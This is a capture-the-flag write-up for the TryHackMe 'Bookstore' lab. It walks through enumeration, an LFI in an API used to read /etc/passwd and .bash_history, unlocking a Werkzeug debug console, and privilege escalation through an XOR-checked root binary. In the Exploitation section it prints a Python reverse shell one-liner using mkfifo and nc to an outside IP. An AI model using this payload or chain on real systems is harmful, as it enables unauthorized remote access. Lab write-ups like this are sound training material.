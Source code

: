 # Bookstore TryHackMe Writeup
## Level: Medium

![logo](logo.jpeg)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](1.png)

## Enumeration
We list two web services on port 80 of this website:

![](2.png)

In the source code of the file *"login.html"* we list relevant information about a PIN that is stored in a file *.bash_history*

![](8.png)

And at port 5000:

![](3.png)

In the nmap capture, it listed the directory *"/api/"*, there we will be able to list several of the site's functionalities.

![](4.png)

We test the API and see that it works correctly from Burp.

![](5.png)

We use the **Nikto** tool and enumerate the directory *"/console/"*.

![](6.png)

We access to the directory and we see that it asks for a PIN to be able to unlock this functionality.

![](7.png)


## Exploitation
Searching on Google about the type of server and its PIN, I found this [documentation](https://book.hacktricks.xyz/pentesting/pentesting-web/werkzeug)

To get the PIN, we would need to know a couple of parameters, but to get them we must be able to read some system files. 

Here the API will come into play, so we will do a brute force attack to enumerate some parameter that will help us to do LFI (Local File Inclusion).

We launched the **Wfuzz** tool with an average dictionary, in version 2 of the API we did not list anything new, but in version 1 we did.

#### API V2

![](9.png)

#### API V1

![](10.png)

If we access from the browser, we see that we can embed files (LFI).

![](11.png)

#### Flag user.txt

We exploit the vulnerability to be able to read the flag *user.txt*

![](12.png)


Recall that they mentioned that the PIN was being stored in the *.bash_history* file. Thanks to the */etc/passwd* file, we know the user names that contain home folder and we can enumerate the file and the access PIN.

![](13.png)

We use the PIN and now we have access to the interactive console.

![](14.png)

We use the following payload and we will have a reverse shell to the victim machine.

### Code Execute

``` python

__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f').read();

```

![](15.png)

### Reverse shell

![](16.png)


## Privilege Escalation

We checked the directory of the user *"sid"*, we found a binary that could be the way to escalate privileges, since it runs as the **root** user.

![](17.png)


We transfer the binary to our kali, check with the **Ghidra** tool and see the conditional where it calls the 3 parameters calculating the xor value. 


![](20.png)


But even if we are missing a parameter, we can obtain it by reversing the xor with the values we have.

![](21.png)

With the magic number in our hands, we insert it and we become root and read the flag of *root.txt*.

![](22.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='50' align='center'> [@David_Uton](https://twitter.com/David_Uton)
